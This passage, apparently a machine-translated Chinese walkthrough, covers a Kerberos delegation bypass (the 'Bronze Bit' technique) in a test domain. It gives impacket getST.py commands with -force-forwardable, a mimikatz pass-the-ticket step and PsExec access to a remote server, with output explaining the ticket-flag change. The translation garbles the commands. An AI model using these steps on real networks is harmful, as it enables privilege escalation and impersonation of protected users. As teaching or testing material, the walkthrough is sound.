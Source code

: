 
执行：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1HP6x27j2AEJWFaZ8SxgE8iakKbqic19GYdyyZYKBn0DPoCrJWzaCdhqJImCQtrcm2BGrRAhORaMUg/640?wx_fmt=png)

我们所有人都在等待的时刻：让我们运行漏洞利用程序！这是我们攻击路径的第 4 步。我们将重复前面的命令，但是这次包括 -force-forwardable 命令行参数。

命令：

*   。\ impacket \ examples \ getST.py -spn cifs / Service2.test.local - 模拟 User2 - 哈希 <LM：NTLM hash> -aesKey <AES hash> test.local / Service1 -force-forwardable
    

执行：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1HP6x27j2AEJWFaZ8SxgE8E0kuUZPNrPfNUWGfD7dbOUw6fr84wnD9satHPc3iaicCw3NJ1LURGqlA/640?wx_fmt=png)

哇！激动人心的东西！让我们专注于几行输出：

来自 S4U2 自身标志的服务票证：00000000101000010000000000000000

S4U2self 的服务票不可转发

强制服务票证可转发

修改后的服务票证标志：01000000101000010000000000000000

现在可以转发来自 S4U2self 的服务票证

通过包含 -force-forwardable 标志，该漏洞利用会自动执行，并将从 S4U2self 交换机收到的服务票证转换为可转发票证。这是通过使用 Service1 的哈希值解密票证，将标志值的第二个位从 0 更改为 1 并重新加密票证来完成的。此可转发票证在 S4U2proxy 交换中发送，并且作为 User2 的 Service2 的服务票证被返回并写入 User2.ccache 的磁盘。

接下来，我们将使用 Mimikatz 将服务票证加载到票证缓存中以供使用。加载后，我们将看到 Mimikatz 确认这是 User2 到 Service2 的 cifs 服务的有效票证。

命令：

*   。\ mimikatz \ mimikatz.exe “kerberos :: ptc User2.ccache” 退出
    

执行：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1HP6x27j2AEJWFaZ8SxgE8EicuxMtCrjbVia9wz8V1U7UPNJMMCrmAVqFhde3Rb98PU9PYGgzxVShQ/640?wx_fmt=png)

将服务票证添加到缓存后，我们现在就可以像访问 User2 一样访问 Service2 了。我们拥有 User2 在 Service2 上的所有权限。我们将使用 Mark Russinovich 的 PSExec 在 Service2 服务器上获取 PowerShell 会话，并运行一些命令。这是攻击路径的最后第五步。

命令：

*   ls \\ service2.test.local \ c $
    
*   。\ PSTools \ PsExec64.exe \\ service2.test.local \ powershell.exe
    

执行：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1HP6x27j2AEJWFaZ8SxgE8bcnH4yhwL0IQXJJwX7HglZoDzxXn7jmdibGJ27yTg4plf6HEfDR7X4A/640?wx_fmt=png)

我们终于得到它了。我们已经翻转并滥用了 Kerberos 委派，以通过模仿受保护的用户来提升我们的特权并损害其他服务。

示例攻击＃2
======
